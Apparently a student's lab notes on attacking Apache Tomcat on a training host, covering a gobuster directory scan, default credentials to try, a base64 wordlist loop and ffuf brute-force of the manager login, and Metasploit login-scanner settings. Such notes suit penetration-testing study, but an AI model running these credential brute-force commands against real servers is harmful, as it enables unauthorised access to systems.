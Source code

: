 ```shell
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
```

## Tester Default creds

`tomcat:tomcat`, `admin:admin` ...


---

# EXPLOITATION

- [[#Bruteforce de login]]
- [[#WAR File Upload]]
- [[#CVEs]]

## Bruteforce de login

### FFUF

Générer wordlist en base64 avec le user à tester

```bash
for pass in $(cat /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt); do echo -n "admin:$pass" | base64 >> basic_passes; done
```

```bash
ffuf -w basic_passes -u 'http://web01.inlanefreight.local:8180/manager/html' -X GET -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://web01.inlanefreight.local:8180/' -H 'Cookie: JSESSIONID=ABA3367491E5A2B96226DBF5E2C40391' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' -H 'Authorization: Basic FUZZ' -fc 401
```


### MSF

```
use auxiliary/scanner/http/tomcat_mgr_login
```

```shell-session
set VHOST web01.inlanefreight.local
```

```shell-session
set RPORT 8180
```

```shell-session
set stop_on_success true
```
